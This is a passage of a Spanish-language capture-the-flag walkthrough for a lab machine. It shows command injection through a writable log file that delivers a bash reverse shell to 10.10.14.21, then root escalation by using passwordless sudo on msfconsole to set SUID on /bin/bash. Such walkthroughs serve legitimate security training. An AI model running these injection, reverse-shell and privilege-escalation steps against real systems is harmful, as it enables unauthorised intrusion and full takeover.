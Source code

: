 ```bash
kid@scriptkiddie:/home/pwn$ ls -l /home/kid/logs/hackers 
-rw-rw-r-- 1 kid pwn 0 Feb  3 11:46 /home/kid/logs/hackers ****
```

El archivo "hackers" tiene permisos de lectura y escritura para el usuario **kid** y grupo **pwn** (el usuario propietario del script). Rápidamente me hace pensar en añadir en el archivo "hackers" una inyección de comandos concatenando parámetros:

```bash
echo "x  ;bash -c 'bash -i >& /dev/tcp/10.10.14.21/1337 0>&1' #" > hackers
```

**Importante:** Cuando se lanza la inyección de comando, justo detrás de "x" hay añadir 2 espacios en blanco. Estuve probando el por qué de esto, pero no encontré explicación. Recordar también añadir al final del comando el hashtag "#" para comentar el resto del comando y que no se ejecute.

Obtenemos shell del usuario **pwn**:

![](body/7cfcc69a84704d4945757c06deaf99c64ef0257e.png)

## Escalada de privilegios

Enumeramos los permisos que tenemos como "**sudo**" y nos encontramos que podemos ejecutar como **sudo** y sin contraseña el binario **msfconsole**:

```bash
pwn@scriptkiddie:~$ sudo -l
 Matching Defaults entries for pwn on scriptkiddie:
     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
 User pwn may run the following commands on scriptkiddie:
     (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Para **msfconsole** existe un parámetro que nos permite ejecutar comandos al lanzar la consola de MetaSploit, este parámetro es **\-x**:

```bash
bash-5.0$ msfconsole --help | grep "-x"
-x, --execute-command COMMAND    Execute the specified console commands (use ; for multiples)
```

Inyectamos el comando para escalar privilegios como usuario **root**:

```bash
pwn@scriptkiddie:~$ sudo msfconsole -x "/bin/chmod 4755 /bin/bash" 
 -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
 -- --=[ 592 payloads - 45 encoders - 10 nops            ]
 -- --=[ 7 evasion                                       ] 
 Metasploit tip: You can use help to view all available commands

[*] exec: /bin/chmod 4755 /bin/bash # <-- Comando ejecutado correctamente

msf6 >
```
